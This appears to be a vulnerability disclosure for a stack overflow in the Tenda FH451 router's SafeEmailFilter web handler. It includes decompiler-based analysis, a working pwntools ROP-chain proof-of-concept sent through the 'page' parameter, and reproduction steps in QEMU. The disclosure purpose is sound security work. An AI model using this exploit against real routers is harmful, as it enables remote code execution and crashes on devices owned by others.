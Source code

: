# Notification of Remote Code Execution Vulnerability in Tenda FH451 Router (Version V1.0.0.9) by Shenzhen Jixiang Tenda Technology

Router firmware download link: [https://tenda.com.cn/material/show/101629](https://tenda.com.cn/material/show/101629)

Vulnerability URL: [http://192.168.100.166/goform/SafeEmailFilter](http://192.168.100.166/goform/SafeEmailFilter)

## Vulnerability Analysis.

The vulnerability occurs in the `formSafeEmailFilter` function.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE1.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE2.png)

The program retrieves the user input parameter `"page"` but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or potential exploitation.  
Cross-referencing the function `formSafeEmailFilter` with the route `SafeEmailFilter`, line 105. The vulnerability occurs in the `formSafeEmailFilter` function.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE3.png)
Cross-referencing further to `sub_64EAC`, paying attention to lines 44 and 47.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE4.png)
Yes, based on the cross-referencing, the vulnerability occurs on the page path `goform/SafeEmailFilter`.

## payload
```
import requests
from pwn import *

addr=0x0064920
libc=ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
base=0xf6636000
system_addr = base + system_offset
cmd = b"Hello,world\x00"
puts = base+libc.sym['puts']

move_r0=base+0x00040cb8
r3_pop=base+0x00018298

url = "http://192.168.100.166/goform/SafeEmailFilter"
payload = {
'op':b'add',
      'page':b'a'*99+p32(r3_pop)+p32(puts)+p32(move_r0)+cmd

    }
res = requests.post(url=url,data=payload)
```

## Reproduce the following:Open the QEMU simulation.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE5.png)

![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE6.png)
Important: Here, "page not found" means the gateway page was not found, not that the router is not running.

After running the script, it was found that the program was interrupted due to a stack overflow, and the string "Hello, world" was printed, with the `puts` command being executed.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE7.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE8.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE9.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE10.png)

The router crashes, the webpage becomes inaccessible, and the string "Hello, world" is printed.
